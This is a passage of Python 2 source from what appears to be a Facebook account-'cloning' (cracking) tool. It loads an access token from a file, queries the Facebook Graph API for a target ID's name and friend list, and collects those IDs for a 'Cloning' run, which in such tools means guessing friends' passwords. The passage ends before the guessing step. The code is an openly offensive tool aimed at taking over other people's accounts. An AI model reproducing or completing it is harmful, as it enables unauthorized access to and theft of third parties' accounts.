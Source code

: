 		pilih()

def crack():
	global toket
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\x1b[1;91mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	os.system('clear')
	print logo19
	print "1 .\x1b[1;93mStart Cloning    "
        time.sleep(0.05)
	print "0. \033[1;93mBack"
	pilih_crack()

def pilih_crack():
	peak = raw_input("\n\033[1;96mChoose an Option ---> \033[1;95m")
	if peak =="":
		print "\x1b[1;91mFill in correctly"
		pilih_crack()
	elif peak =="1":
		os.system('clear')
		print logo
		jjt = raw_input("\033[1;92mEnter ID : \033[1;92m")
		print "►▸▹►▸▹►▸▹►►▸▹►▸▹►▸▹►▸▹◃◄◅◃◄◅◃◄◅▸▹◃◄◅◃◄◅◃◄◅"
		try:
			m = requests.get("https://graph.facebook.com/"+jjt+"?access_token="+toket)
			td = json.loads(m.text)
			print"\033[1;94mName\033[1;94m:\033[1;94m "+td["name"]
		except KeyError:
			print"\x1b[1;91mID Not Found!"
			raw_input("\n\033[1;97m[\033[1;97mBack\033[1;97m]")
			crack()
		print"\033[1;97mGetting IDs\033[1;97m..."
		n = requests.get("https://graph.facebook.com/"+jjt+"/friends?access_token="+toket)
		d = json.loads(n.text)
		for c in d['data']:
			id.append(c['id'])
	elif peak =="0":
		men()
	else:
		print "\x1b[1;91mFill in correctly"
		pilih_crack()
	
	print "\033[1;97mTotal IDs\033[1;97m: \033[1;97m"+str(len(id))
	jalan('\033[1;97mPlease Wait\033[1;97m...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;94mCloning\033[1;94m"+o),;sys.stdout.flush();time.sleep(1)
	print "\033[1;96mTo Stop Process Press CTRL then Z"
	print "\033[1;91m-------------------------------------------------------------------"
	jalan(' \033[1;95mPlz Wait Cloned Accounts Will Appear Here')
        jalan(' \033[1;95m      Started Cloning Wait A while ☕ ')
	print "\033[1;91m----------------------------------------"
	